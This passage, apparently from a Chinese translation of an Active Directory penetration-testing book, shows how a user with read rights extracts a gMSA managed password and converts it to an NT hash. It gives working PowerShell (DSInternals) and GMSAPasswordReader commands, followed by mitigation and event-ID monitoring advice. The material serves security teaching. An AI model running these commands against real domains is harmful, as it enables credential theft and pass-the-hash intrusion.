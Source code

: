 图 4.20 – 用户检索 gMSA 密码

第三步是妥协用户并将密码作为二进制大对象提取，攻击者随后可以使用以下命令和 **DSInternals**[28] 模块将其转换为 NT 哈希：

```
$pwd = Get-ADServiceAccount -identity sql_acc -Properties msds-ManagedPassword
$pw = ConvertFrom-ADManagedPasswordBlob $pwd.'msds-managedpassword'
ConvertTo-NTHash $pw.securecurrentpassword
```

以下截图显示了 **SecureCurrentPassword** 和 **CurrentPassword** 的 UTF-16 格式。我们还将 **SecureCurrentPassword** 转换为 NT 哈希：

![](img/B18964_04_21.jpg)

图 4.21 – gMSA 密码的 NT 哈希

然后可以使用该哈希值进行传递哈希攻击，我们将在下一章中讨论这种攻击。

但是，如果没有安装 AD 模块，我们可以使用 Windows 编写的 **GMSAPasswordReader**（由 *rvazarkar* 编写），或在 Linux 上使用 **gMSADumper**（由 *micahvandeusen* 编写）。唯一的注意事项是我们需要账户名来转储其哈希。以具有读取 gMSA 密码权限的用户身份运行简单命令：

```
.\GMSAPasswordReader.exe --Accountname sql_acc
```

我们将获得以下输出：

![](img/B18964_04_22.jpg)

图 4.22 – 使用 GMSAPasswordRead 工具的结果

和往常一样，缓解措施是确保正确设置 GMSA 的权限。同时，可以配置并监控事件日志中的事件 ID 4662，这将显示哪个账户查询了 **msDS-ManagedPassword** 属性。

# NTDS 秘密

